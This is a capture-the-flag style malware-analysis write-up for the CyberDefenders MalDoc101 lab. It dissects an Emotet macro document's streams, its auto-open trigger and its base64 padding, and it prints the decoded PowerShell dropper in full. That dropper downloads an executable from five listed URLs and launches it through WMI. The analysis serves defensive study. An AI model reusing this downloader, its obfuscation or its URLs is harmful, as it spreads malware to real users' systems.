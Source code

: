 ```yaml
---
title: "MalDoc101 (Document Analysis)"
categories: ["IT and Cyber Security"]
tags: ['CyberDefenders']
date: 2021-04-26
---
```


[https://cyberdefenders.org/labs/51](https://cyberdefenders.org/labs/51)

## Contents

- [Tools Used](#tools-used)
- [1. Multiple streams contain macros in this document. Provide the number of highest one.](#1-multiple-streams-contain-macros-in-this-document-provide-the-number-of-highest-one)
- [2. What event is used to begin the execution of the macros?](#2-what-event-is-used-to-begin-the-execution-of-the-macros)
- [3. What malware family was this maldoc attempting to drop?](#3-what-malware-family-was-this-maldoc-attempting-to-drop)
- [4. What stream is responsible for the storage of the base64-encoded string?](#4-what-stream-is-responsible-for-the-storage-of-the-base64-encoded-string)
- [5. This document contains a user-form. Provide the name?](#5-this-document-contains-a-user-form-provide-the-name)
- [6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?](#6-this-document-contains-an-obfuscated-base64-encoded-string--what-value-is-used-to-pad--or-obfuscate--this-string)
- [7. What is the purpose of the base64 encoded string?](#7-what-is-the-purpose-of-the-base64-encoded-string)
- [8. What WMI class is used to create the process to launch the trojan?](#8-what-wmi-class-is-used-to-create-the-process-to-launch-the-trojan)
- [9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.](#9-multiple-domains-were-contacted-to-download-a-trojan-provide-first-fqdn-as-per-the-provided-hint)

## Tools Used

1. oledump
2. olevba
3. vmonkey (ViperMonkey)
4. LibreOffice
5. CyberChef
6. sha256sum

## 1. Multiple streams contain macros in this document. Provide the number of highest one.

We can use `oledump` to dump all the streams:

```bash
$ oledump.py sample.bin
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:      7119 '1Table'
5:    101483 'Data'
6:       581 'Macros/PROJECT'
7:       119 'Macros/PROJECTwm'
8:     12997 'Macros/VBA/_VBA_PROJECT'
9:      2112 'Macros/VBA/__SRP_0'
10:       190 'Macros/VBA/__SRP_1'
11:       532 'Macros/VBA/__SRP_2'
12:       156 'Macros/VBA/__SRP_3'
13: M    1367 'Macros/VBA/diakzouxchouz'
14:       908 'Macros/VBA/dir'
15: M    5705 'Macros/VBA/govwiahtoozfaid'
16: m    1187 'Macros/VBA/roubhaol'
17:        97 'Macros/roubhaol/\x01CompObj'
18:       292 'Macros/roubhaol/\x03VBFrame'
19:       510 'Macros/roubhaol/f'
20:       112 'Macros/roubhaol/i05/\x01CompObj'
21:        44 'Macros/roubhaol/i05/f'
22:         0 'Macros/roubhaol/i05/o'
23:       112 'Macros/roubhaol/i07/\x01CompObj'
24:        44 'Macros/roubhaol/i07/f'
25:         0 'Macros/roubhaol/i07/o'
26:       115 'Macros/roubhaol/i09/\x01CompObj'
27:       176 'Macros/roubhaol/i09/f'
28:       110 'Macros/roubhaol/i09/i11/\x01CompObj'
29:        40 'Macros/roubhaol/i09/i11/f'
30:         0 'Macros/roubhaol/i09/i11/o'
31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
32:        40 'Macros/roubhaol/i09/i12/f'
33:         0 'Macros/roubhaol/i09/i12/o'
34:     15164 'Macros/roubhaol/i09/o'
35:        48 'Macros/roubhaol/i09/x'
36:       444 'Macros/roubhaol/o'
37:      4096 'WordDocument'
```

The highest VBA macro is number 16.

## 2. What event is used to begin the execution of the macros?

`olevba` is a good tool for getting more information about macros. I've cropped the output.

```bash
$ olevba sample.bin

[..]
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
[..]
```

Alternatively, we can open the malicious document and view (edit) the macro. I did so using LibreOffice Writer.

![cyberdefenders-maldoc101-0.png](/img/cyberdefenders-maldoc101-0.png)

## 3. What malware family was this maldoc attempting to drop?

One easy way is to compare the filehash to online databases such as URLhaus. Otherwise I'd have to reverse-engineer the script, decipher the functionality, and cross-reference that with known malware.

```bash
$ sha256sum sample.bin
d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee  sample.bin
```

![cyberdefenders-maldoc101-1.png](/img/cyberdefenders-maldoc101-1.png)

Looks like we're dealing with Emotet.

## 4. What stream is responsible for the storage of the base64-encoded string?

We have the list of streams in question 1, but which one is it? Going back to the output we got from `olevba`, and looking through the streams, we can see there is one very long string (note I've cropped the middle out):

```bash
-------------------------------------------------------------------------------
VBA FORM STRING IN 'sample.bin' - OLE stream: 'Macros/roubhaol/i09/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
ï¿½p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe[..]2342772g3&*gs7712ffvs626fqAHUAbA2342772g3&*gs7712ffvs626fqBmAGkA2342772g3&*gs7712ffvs626fqZQByAD2342772g3&*gs7712ffvs626fq0AJwBm2342772g3&*gs7712ffvs626fqAG8AcQ2342772g3&*gs7712ffvs626fqB1AGwA2342772g3&*gs7712ffvs626fqZQB2AG2342772g3&*gs7712ffvs626fqMAYQBv2342772g3&*gs7712ffvs626fqAGoAJw2342772g3&*gs7712ffvs626fqA=
-------------------------------------------------------------------------------
```

It ends with `=`, which suggests it's base64 encoded. Checking our list of streams for `Macros/roubhaol/i09/o`, we find it's number 34.

## 5. This document contains a user-form. Provide the name?

From the screenshot in 2, we can see the form - `roubhaol`.

## 6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?

If we look carefully at the base64 string above (also use the hint from the challenge...) we can see there is a regularly-repeated string: `2342772g3&*gs7712ffvs626fq`.

We can also look at the actual VBA script in LibreOffice. 

There is line 43, which `Split`s the string based on that value:

![cyberdefenders-maldoc101-2.png](/img/cyberdefenders-maldoc101-2.png)

There's also this on line 10:

```bash
Dhaothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
```

Deleting the padding and we get:

```bash
haothkoebtheil = "winmgmt" + gooykadheoj + ":win32_" + roubhaol.joefwoefcheaw + "rocess"
```

If we ignore those variables we get `winmgmt[]:win32_[]rocess`, which leads us on to the next question.

## 7. What is the purpose of the base64 encoded string?

We can run ViperMonkey to do some automated analysis of the file:

```bash
$ vmonkey -s sample.bin -p -o vmonkey_s.txt
```

ViperMonkey errors out quite a bit, but I got some useful information with `-s`, which strips out useless VB code (the `-p -o` is for `tee` and outputting to a file). `-c` for IOCs didn't give much before erroring out, same as no argument. I also used `-e`, which attempts to extract expressions. It also errored out.

Opening this in a graphical editor (to avoid line wrapping), we get some interesting information:

![cyberdefenders-maldoc101-3.png](/img/cyberdefenders-maldoc101-3.png)

`Win32_Process` is a well-known WMI class, and (as we can see above) is often related to PowerShell (in this case with `-e`, meaning encoded command). This is our answer.

Note this is also similar to what we found in question 6 - it seems `roubhaol.joefwoefcheaw` = P.

## 8. What WMI class is used to create the process to launch the trojan?

See the previous question.

## 9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.

Let's dig into that encoded PowerShell command. CyberChef will decode it:

![cyberdefenders-maldoc101-4.png](/img/cyberdefenders-maldoc101-4.png)

And gives us this:

```bash
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
```

It's still a but obfuscated, but we can easily see the URLs, and some is easily deobfuscated (e.g. `'Get-'+'Ite'+'m'` = `'Get-Item'`).

Let's look on URLhaus for one of these URLs:

![cyberdefenders-maldoc101-5.png](/img/cyberdefenders-maldoc101-5.png)